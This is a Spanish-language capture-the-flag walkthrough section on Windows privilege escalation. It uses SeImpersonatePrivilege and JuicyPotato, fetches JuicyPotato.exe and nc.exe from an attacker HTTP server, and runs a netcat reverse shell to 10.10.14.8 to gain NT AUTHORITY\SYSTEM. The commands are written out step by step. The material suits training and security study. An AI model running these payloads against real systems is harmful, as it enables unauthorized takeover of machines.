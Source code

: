 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
systeminfo
whoami /priv
```

Aqui vemos que tenemos privilegios SeImpersonatePrivilege, tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.8/JuicyPotato.exe -OutFile JuicyPotato.exe
iwr -uri http://10.10.14.8/nc.exe -OutFile nc.exe
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Nos connectamos con el servicio nc con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443"
```

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
encontramos el CLSID que corresponde y con el parametro `-c`

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

La reverse shell nos a functionnado y con `whoami` vemos que ya somos nt authority\system y podemos ver la flag.
